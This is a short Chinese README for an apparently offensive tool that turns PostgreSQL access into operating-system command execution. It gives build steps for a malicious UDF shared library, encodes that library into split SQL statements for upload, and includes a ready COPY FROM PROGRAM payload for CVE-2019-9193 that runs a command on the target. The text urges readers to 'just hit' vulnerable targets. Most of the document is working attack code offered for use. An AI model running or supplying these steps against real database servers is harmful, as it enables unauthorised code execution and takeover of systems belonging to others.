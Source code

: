 # 使用

以 PostgreSQL 11.12 为例

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的sql语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

效果

![](./img/1.png)

当然你要是嫌麻烦,可以看目标是否受 CVE-2019-9193 影响,直接打就是了
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

![](./img/2.png)

## 参考
- https://github.com/sqlmapproject/udfhack
- [渗透中利用postgresql getshell](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)

---

> create by ffffffff0x
